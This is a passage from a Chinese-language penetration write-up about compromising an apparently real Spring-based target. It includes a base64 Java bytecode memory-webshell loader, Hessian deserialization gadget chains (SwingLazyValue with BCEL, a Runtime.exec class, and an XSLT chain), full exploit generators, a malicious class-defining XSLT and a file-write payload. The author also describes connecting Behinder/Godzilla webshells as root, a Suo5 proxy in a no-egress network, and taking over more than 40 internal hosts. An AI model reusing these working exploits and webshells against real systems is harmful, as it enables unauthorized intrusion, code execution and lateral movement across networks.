QBBAEIAQgBYAEUAdwBGAIgASQCnAEoArwBLAMIATADKAE4A3QBPAOUAUADoAFEA6wBSAO4AVAEcAFUBLABWAT8AVwFHAFgBWgBZAWIAPwFoAF4BawBcAW0AXQF3AF8AHQAAAGYACgCnAD4ARgAfAA0AiABgAEcASAALAHcAcQBJAB8ACgBYAJMASgBIAAgAMQExAEsATAAHAW0ACgBNAE4ABAAAAXkAIwAkAAAACAFxACEAIgABABYBYwBPAFAAAgAYAWEAIAAfAAMAJQAAAAwAAQAIAXEAIQAmAAEAKwAAAE8ADv8AIwAHBwACBwAoBwBRBwAEBwBRAQEAAP4AQAcAUwcAVQcAKv4ALwcABAcAVQcAKvwANQcABPoAGvgAAvkAAgItKvoAGvgABUIHABsLAA4AAAAIAAMAnQCfAKEAogAAAAIAowACAD4APwABAAcAAAFtAAYACAAAAIQBTbgAs7YAjE4txwALK7YAfbYAtk4tKrYAuLYAvE2nAGQ6BCq2AL64AMK4AMY6BRKvEscGvQB/WQMSyFNZBLIAzVNZBbIAzVO2ANE6BhkGBLYA1xkGLQa9AARZAxkFU1kEA7gA21NZBRkFvrgA21O2AN/AAH86BxkHtgDiTacABToFLLAAAgAVAB4AIQAbACMAfQCAAKUAAwAcAAAAPgAPAAAAZQACAGYACQBnAA0AaAAVAGsAHgB1ACEAbAAjAG4ALwBvAE0AcABTAHEAdwByAH0AdACAAHMAggB2AB0AAABSAAgALwBOAKYApwAFAE0AMACoAKkABgB3AAYAqgCrAAcAIwBfAE0ATgAEAAAAhAAjACQAAAAAAIQAIAAfAAEAAgCCAB4AHwACAAkAewCsAK0AAwArAAAAKwAE/QAVBwAEBwCvSwcAG/8AXgAFBwACBwAEBwAEBwCvBwAbAAEHAKX6AAEAAQDjAOQAAQAHAAAAbQADAAMAAAAaKxLqtgBnmQASKxLqtgDuPSscBGC2APKwK7AAAAADABwAAAASAAQAAAB6AAkAewAQAHwAGAB+AB0AAAAgAAMAEAAIAOUA5gACAAAAGgAjACQAAAAAABoA5wDoAAEAKwAAAAMAARgAAQBCAEMAAgAHAAAEUQAHAAsAAAHmKrYBAk4qtgC4OgQqGQS2AQQ6BSsTAQYEvQB/WQMSElMEvQAEWQMZBVO4AQnGAASxpwAFOggTAQu4AQ62AOI6BhMBELgBDrYA4joHpwA6OggTARK4AQ62AOI6BhMBFLgBDrYA4joHpwAfOgkTARIELbgBF7YA4joGEwEUBC24ARe2AOI6BxkGEwEZBL0Af1kDEhJTBL0ABFkDGQVTuAEJVxkGEwEbBL0Af1kDEhJTBL0ABFkDGQRTuAEJVysTAR0EvQB/WQMZBrYAfVMEvQAEWQMZBlO4AQlXGQcTARkEvQB/WQMSElMEvQAEWQMZBVO4AQlXGQcTAR8EvQB/WQMSElMEvQAEWQMTASFTuAEJVxkHEwEjBL0Af1kDEhJTBL0ABFkDKrYBJVO4AQlXEwEnuAEOtgErOginAC86CRkHEwEtBL0Af1kDEhJTBL0ABFkDKrYBJVO4AQlXEwEnBC24ARe2ASs6CCsTAS8EvQB/WQMZB7YAfVMEvQAEWQMZB1O4AQlXpwAiOgkrEwExBL0Af1kDGQe2AH1TBL0ABFkDGQdTuAEJVxkIAzIEtgE0GQgDMgW9AARZAytTWQQZBlO2ATc6CSsTATi4AGzAATo6ChkKGQUZCbkBPgMAV6cACjoIGQi2AUGxAAYAEwAvADMAGwA1AEsATgAbAFAAZgBpABsBDwE3AToAGwFmAYMBhgAbAIUB2wHeABsABAAcAAAAogAoAAAAhAAFAIUACwCGABMAjAAvAI0AMACQADMAjwA1AJQAQACVAEsAoABOAJYAUACZAFsAmgBmAJ8AaQCbAGsAnQB4AJ4AhQCiAKAAowC7AKQA2AClAPMApgEPAKkBLACqATcArwE6AKsBPACtAVkArgFmALIBgwC1AYYAswGIALQBpQC3Aa0AuAHDALkBzwC6AdsAvQHeALsB4AC8AeUAvgAdAAAA1AAVAEAADgDzAB8ABgBLAAMA9AAfAAcAWwAOAPMAHwAGAGYAAwD0AB8ABwBrABoATQBOAAkAUAA1APUATgAIATcAAwD2APcACAE8ACoATQBOAAkBiAAdAE0ATgAJAWYAdQD2APcACAHDABgA+AAfAAkBzwAMAPkA+gAKAeAABQBNAE4ACAAAAeYAIwAkAAAAAAHmACAAHwABAAAB5gAeAB8AAgAFAeEA+wCtAAMACwHbAPwA6AAEABMB0wD9AOgABQB4AW4A8wAfAAYAhQFhAPQAHwAHACUAAAAWAAIBNwADAPYA/gAIAWYAdQD2AP4ACAArAAAAiwAM/gAwBwCvBwASBwASQgcAGwFYBwAb/wAaAAkHAAIHAAQHAAQHAK8HABIHABIAAAcAGwABBwAb/wAbAAgHAAIHAAQHAAQHAK8HABIHABIHAAQHAAQAAPcAtAcAG/wAKwcA/18HABse/wA4AAgHAAIHAAQHAAQHAK8HABIHABIHAAQHAAQAAQcAGwYADgAAAAwABQChAJ8AnQFDAUUAAQEAAIoAAgAHAAAAsgACAAQAAAA4ElMSWrgAXsAAUcAAUUwBTQM+HSu+ogAhKx0ytgBhEmO2AGeZAA0rHTK2AIxNpwAJhAMBp//fLLAAAAADABwAAAAiAAgAAADBAA4AwgAQAMMAGADFACYAxgAtAMcAMADDADYAygAdAAAAKgAEABIAJAFGAOYAAwAAADgAIwAkAAAADgAqAE8AUAABABAAKAD7AK0AAgArAAAAEAAD/gASBwBRBwCvAR36AAUADgAAAAgAAwCfAKEAnQAIAL8AwAACAAcAAAEFAAYABAAAAG8TAU24AQ5MKxMBTwS9AH9ZAxISU7YBUiu2AOIEvQAEWQMqU7YA38AAyMAAyLBNEwFUuAEOTCsTAVYDvQB/tgFSAQO9AAS2AN9OLbYAfRMBWAS9AH9ZAxISU7YBUi0EvQAEWQMqU7YA38AAyMAAyLAAAQAAACwALQAbAAQAHAAAABoABgAAANAABwDRAC0A0gAuANMANQDUAEkA1QAdAAAANAAFAAcAJgFHAKsAAQBJACYBSAAfAAMALgBBAUkATgACAAAAbwFKAOgAAAA1ADoBRwCrAAEAJQAAABYAAgAHACYBRwFLAAEANQA6AUcBSwABACsAAAAGAAFtBwAbAA4AAAAKAAQBQwCfAKEAnQAJAMMAxAACAAcAAADUAAQABgAAAD67AWNZtwFoTLsBZVkqtwFrTbsBZ1kstwFuThEBALwIOgQtGQS2AXJZNgWbAA8rGQQDFQW2AXan/+srtgF6sAAAAAMAHAAAAB4ABwAAANoACADbABEA3AAaAN0AIQDfAC0A4AA5AOIAHQAAAD4ABgAAAD4BWQCnAAAACAA2AVoBWwABABEALQFcAV0AAgAaACQBXgFfAAMAIQAdAWAApwAEACoAFAFhAOYABQArAAAAHAAC/wAhAAUHAMgHAWMHAWUHAWcHAMgAAPwAFwEADgAAAAQAAQAQAAgAagBcAAIABwAAAFcAAgADAAAAESoruAGCTSwEtgGFLCq2AYawAAAAAgAcAAAADgADAAAA5gAGAOcACwDoAB0AAAAgAAMAAAARAXsAHwAAAAAAEQF8AOgAAQAGAAsBfQF+AAIADgAAAAQAAQAbAAgBfwGAAAIABwAAAMcAAwAEAAAAKCq2AH1NLMYAGSwrtgGNTi0EtgGFLbBOLLYBkE2n/+m7AYhZK7cBkb8AAQAJABUAFgGIAAQAHAAAACYACQAAAOwABQDtAAkA7wAPAPAAFADxABYA8gAXAPMAHAD0AB8A9gAdAAAANAAFAA8ABwF9AX4AAwAXAAUATQGJAAMAAAAoAXsAHwAAAAAAKAF8AOgAAQAFACMAqgCrAAIAJQAAAAwAAQAFACMAqgFLAAIAKwAAAA0AA/wABQcAf1AHAYgIAA4AAAAEAAEBiAAoAFsAXAACAAcAAABCAAQAAgAAAA4qKwO9AH8DvQAEuAEJsAAAAAIAHAAAAAYAAQAAAPoAHQAAABYAAgAAAA4BkgAfAAAAAAAOAZMA6AABAA4AAAAIAAMAnwCdAKEAKQBbAQcAAgAHAAACFwADAAkAAADKKsEAf5kACirAAH+nAAcqtgB9OgQBOgUZBDoGGQXHAGQZBsYAXyzHAEMZBrYBojoHAzYIFQgZB76iAC4ZBxUIMrYBoyu2AaaZABkZBxUIMrYBqr6aAA0ZBxUIMjoFpwAJhAgBp//QpwAMGQYrLLYA0ToFp/+pOgcZBrYBkDoGp/+dGQXHAAy7AJ9ZK7cBq78ZBQS2ANcqwQB/mQAaGQUBLbYA37A6B7sAmFkZB7YBrrcBr78ZBSottgDfsDoHuwCYWRkHtgGutwGvvwADACUAcgB1AJ8AnACjAKQAnQCzALoAuwCdAAMAHAAAAG4AGwAAAP4AFAD/ABcBAQAbAQIAJQEEACkBBgAwAQcAOwEIAFYBCQBdAQoAYAEHAGYBDQBpAQ4AcgESAHUBEAB3AREAfgESAIEBFACGARUAjwEXAJUBGACcARoApAEbAKYBHACzASAAuwEhAL0BIgAdAAAAegAMADMAMwFGAOYACAAwADYBlAGVAAcAdwAHAE0BlgAHAKYADQBNAZcABwC9AA0ATQGXAAcAAADKAXsAHwAAAAAAygGTAOgAAQAAAMoBmAGZAAIAAADKAZoBmwADABQAtgCqAKsABAAXALMBnACpAAUAGwCvAZ0AqwAGACsAAAAvAA4OQwcAf/4ACAcAfwcA0wcAf/0AFwcBngEs+QAFAghCBwCfCw1UBwCdDkcHAJ0ADgAAAAgAAwCfAKEAnQAIAbAAGQABAAcAAAAlAAIAAAAAAAm7AAJZtwGxV7EAAAABABwAAAAKAAIAAAApAAgAKgAA"),Thread.currentThread().getContextClassLoader()).newInstance();
```

访问两次出现这个就是注入成功了，因为打2次第二次会显示已存在，我们冰蝎连接试一下。



  
显然我们是注入成功了。

# 四、再转

那么我们的问题就来到了Gadgets上面，假如对nacos的raft反序列化熟悉的小伙伴应该不会缺链子，这里一开始是有很多种思路的

-   JackSon反序列化
-   BCEL字节码加载
-   XSLT文件加载

## 1、Jackson

首先说到jackson，在AliyunCTF上爆出来的gadgets让绝大多数springframework都受到影响，因为他们都有Jackson依赖，可以打getter。但是在这个环境下版本过高，jackson无法利用  
  
版本达到了2.8，在这个版本，BaseJsonNode可以触发getter的toString方法被移除了

  
因此无法继续利用

## 2、BCEL

在TCTF2022中出现了一个叫做Hessian-Onlyjdk的题，这个题的影响程度很高，不仅仅是在CTF更是在Realworld，他提供了一种JDK8原生的hessian gadgets，利用SwingLazyValue可以触发任意类的静态方法。  
EXP

```java
public class HessianSwingLVBCEL {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        String bcelStr = SerializeUtils.makeBcelStr(BcelRCE.class);
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{bcelStr,"s"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        SerializeUtils.HessianDeserial(SerializeUtils.HessianTostringSerial(pkcs9Attributes));
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}
```

```java
package com.javasec.pocs.rce;

import java.io.IOException;

public class BcelRCE {
    public static void _main(String[] argv) throws Exception {
        Runtime.getRuntime().exec("cmd");
    }
    public static void main(String[] args) {

    }
}
```

这里用到了`com.sun.org.apache.bcel.internal.util.JavaWrapper`这个类的`_main`静态方法，在方法内部可以加载BCEL字节码，会加载恶意类的`_main`方法。但是问题是，BCEL打内存马需要全反射的形式调用，Bcel类加载器不会加载springframework下的依赖，会抛出`ClassNotDefinded`的异常，它只能加载jdk包下的原生类，这一点就是一个限制，所以这里假如目标出网可以用这条gadgets，比较方便。

## 3、XSLT

在nacos的raft反序列化里出现过这条链子

```java
public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xalan.internal.xslt.Process", "_main", new Object[]{new String[]{"-XT", "-XSL", "E:\\payload.xslt"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();

    }
}
```

该gadgets可在jdk8通杀，这是一条高可用的payload，用到了`com.sun.org.apache.xalan.internal.xslt.Process`的\_main方法去加载恶意的xslt文件，我们可以在xslt文件内部执行任意语句，并且不受限。

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"                xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"                xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"                xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils">
<xsl:template match="/">
<xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'base64')"/>
<xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/>
<xsl:variable name="rce" select="ru:defineClass('classname',$bs,$cl)"/>
<xsl:value-of select="$rce"/>
</xsl:template>
</xsl:stylesheet>
```

文件内容如上，加载恶意类，也就是内存马。那么为了加载xslt，我们还需要有一个payload去写入恶意的xslt，用到的gadgets还是一样的。

```java
package com.javasec.pocs.hessian;
import com.caucho.hessian.io.Hessian2Output;
import com.javasec.utils.SerializeUtils;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.FileOutputStream;

public class HessianProxyLVFileWrite {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        //PKCS9Attribute.EMAIL_ADDRESS_OID 是固定的，调试流程可以看到逻辑
        //去修改需要读取的文件，和写入的文件名，实例中是读取1.txt写入pwned.txt
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/1.xslt",SerializeUtils.getFileBytes("E:\\payload.xslt")}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}
```

这里选用JavaUtils的writeBytesTofilename即可。

# 五、合

确认了Gadgets和内存马后，我们就可以直接打两次poc了。


  
root权限连接成功~  
这里我已经打入了，为了避免把服务打蹦就不把curl命令的结果发出来了，这里就以本机为例子，看看curl指令的结果。

  
第一发是写入payload


  
成功写入，第二发就是去加载xslt文件

  
之后就可以像上面一样去连接冰蝎或者哥斯拉了。

# 六、不出网渗透

这里目标经过测试是做了nginx的反向代理和负载均匀的，只能访问指定的目的ip


  
在这里ICMP和DNS和TCP均不出网，这种情况下是无法上线c2的，因此我们可以选择正向代理进入，这里可以选择Suo5内存马

  
注入过后测试连接

  
可以看到连接是成功了的，但是半双工模式，这里就是因为nginx做了负载均衡，我们的请求会分发到2个内网机子，导致我们的正向代理发送不了完整的请求，也就有了图片中的连接关闭。这里我们是选择不做代理，直接使用冰蝎的虚拟终端获取完整tty继续渗透。

# 七、结

最终是拿下了40多台内网机子，算得上是一次比较曲折的不出网内网渗透了，希望上述提到的gadgets以及内存马可以给师傅们一些思路QWQ

  
如果觉得还不错的话可以点个赞QAQ
